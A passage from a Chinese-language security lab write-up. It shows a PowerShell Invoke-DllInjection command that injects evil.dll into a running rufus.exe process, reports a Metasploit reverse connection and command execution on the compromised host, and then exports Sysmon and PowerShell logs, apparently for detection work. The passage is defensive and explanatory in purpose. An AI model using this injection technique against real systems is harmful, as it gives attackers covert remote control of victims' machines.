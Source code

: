 **3.3 注入恶意dll**  
此时进程注入脚本运行在powershell进程中，在注入evil.dll之前需要选择某个合法的进程。下面以创建可启动的 USB 驱动器程序rufus.exe为例进行注入。运行 rufus.exe并找到该进程 ID，将其作为参数传递给注入脚本。运行以下命令：

```plain
Invoke-DllInjection -ProcessID 1480 -Dll C:\Users\admin\Desktop\evil.dll
```

[![](assets/1700442730-b68e6b77968de43d3dd38085728cb851.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162933-6fb225f2-8523-1.png)

回到Kali系统，查看msf控制面板的输出，可观察到成功回连。如下图所示：

[![](assets/1700442730-aab74ab8685078e5256720ef6e77d01b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162952-7ad6e198-8523-1.png)

**3.4 执行命令**  
连接成功后，可以进一步操作受控机器，比如下载文件或执行命令查看详细信息。执行过程如下所示：

[![](assets/1700442730-1975976f9adae32042a7edac8958f666.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117163008-84163ab0-8523-1.png)

**3.5日志导出**  
以管理员打开powershell，输出sysmon与powershell script命令行日志，运行如下命令：

Sysmon日志：

```plain
wevtutil epl "Microsoft-Windows-Sysmon/Operational" "C:\Users\User\Desktop\SysmonLog.evtx”
```

Powershell日志：
